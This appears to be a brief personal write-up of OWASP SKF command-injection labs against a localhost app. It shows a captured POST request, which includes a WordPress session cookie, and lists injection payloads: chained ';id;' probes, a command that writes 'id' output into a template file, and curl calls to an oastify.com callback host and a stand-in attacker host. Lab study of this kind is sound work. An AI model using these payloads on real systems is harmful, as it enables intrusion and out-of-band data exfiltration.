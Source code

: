 # Lab 1
- we in lab resizing a image
- ![[skf-lab1-1.png]]
- let's go see packet
- ![[skf-lab1-2.png]]
```http
POST /home HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
Origin: http://127.0.0.1:5000
Connection: keep-alive
Referer: http://127.0.0.1:5000/home
Cookie: wordpress_logged_in_5c016e8f0f95f039102cbe8366c5c7f3=salar%7C1738426858%7C9XvMuDG4HIWntaNkPq99mJMyTQK9oxrLcPyn7vEDKyO%7C144626f650db871bb0c719b4da10d34d881c4c3a0dc6e3d346e08b12e3804d45; wp-settings-time-1=1737215777; wp-settings-1=mfold%3Do
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

size=50
```
- The input we give to the application here is  `size`
- We assume that the application uses the `convert` command.
- `convert path -resize `
- payload's
```shell
echo `id` >> templates/index.html
curl http://9v5hvo5p57s8akbk74qdfpmbk2qtej28.oastify.com;
```
- ![[skf-lab1-4.png]]



## Laboratory 2
- we in lab compressing a file
- ![[skf-lab2-1.png]]
- We imagine a zip command being called in the background.
- testing payload's
```shell
;echo 1;
;whomai;
;id;
;curl%20attcker.com;

```
- ![[skf-lab2-3.png]]
## [lab3](https://skf.gitbook.io/asvs-write-ups/command-injection-4-cmd-4/cmd4) Read writeup 
## [lab5 blind](https://skf.gitbook.io/asvs-write-ups/command-injection-blind-cmd-blind/blind-cmd-injection-1) read writeup 
